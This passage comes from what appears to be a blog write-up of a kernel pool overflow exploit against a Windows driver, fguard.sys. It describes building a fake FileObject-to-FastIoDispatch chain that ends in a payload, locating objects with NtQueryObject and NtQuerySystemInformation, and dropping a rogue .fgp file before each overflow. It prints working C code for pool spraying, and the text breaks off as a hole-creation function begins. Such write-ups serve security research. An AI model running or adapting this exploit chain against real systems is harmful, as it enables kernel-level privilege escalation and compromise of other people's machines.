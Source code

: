 When an application performs an IO operation, syscall handler (e.g. NtReadFile in case of ReadFile) checks FO_SYNCHRONOUS_IO flag of the corresponding file object and, if it's set, calls FastIo handler of the corresponding driver object. Sounds promising, isn't it?


#### [Let's do it]
So, using the overflow, we will build the following chain in the kernel pool: FileObject->DeviceObject->DriverObject->FastIoDispatch->Payload. We can't do it with a single overflow, instead, we will trigger the overflow a few times, building one object at a time in reverse order. After every successfull overflow we need to locate the constructed object in memory and to use the obtained pointer to build the next object. To locate the object we mark it with special PointerCount and HandleCount values in the object header. Once overflow succeeds we use NtQueryObject to figure out which handle in the array points to the object and then use NtQuerySystemInformation to get the address of the object. Since fguard.sys reads the fgp file from disk, we drop the rogue fgp file before every overflow.

After dropping the file we start with regular spraying:
{% highlight C %}
BOOL SprayObjects()
{
    BOOL   r;
    DWORD  err;

    r = TRUE;
    RtlFillMemory(ObjectArrayA, sizeof(ObjectArrayA), 0x0);
    RtlFillMemory(ObjectArrayB, sizeof(ObjectArrayB), 0x0);

    for (UINT32 i = 0; i < ARR_1_LEN; i++)
    {
        ObjectArrayA[i] = CreateFileW(L"1.txt", GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE, 0, OPEN_ALWAYS, 0, NULL);

        if (ObjectArrayA[i] == INVALID_HANDLE_VALUE)
        {
            err = GetLastError();
            printf("CreateFileW failed: %d\n", err);
            r = FALSE;
            goto Exit;
        }
    }

    for (UINT32 i = 0; i < ARR_2_LEN; i++)
    {
        ObjectArrayB[i] = CreateFileW(L"1.txt", GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE, 0, OPEN_ALWAYS, 0, NULL);

        if (ObjectArrayB[i] == INVALID_HANDLE_VALUE)
        {
            err = GetLastError();
            printf("CreateFileW failed: %d\n", err);
            r = FALSE;
            goto Exit;
        }
    }

Exit:
    return r;
}
{% endhighlight %}
Then we create holes. Every hole should be slightly bigger than the size of PROTECTED_DIR_DESCRIPTOR (0x2A4 bytes):
{% highlight C %}
BOOL CreateHoles()
{
    BOOL   r;
    UINT32 i = 0;
    UINT32 j = 0;

    r = TRUE;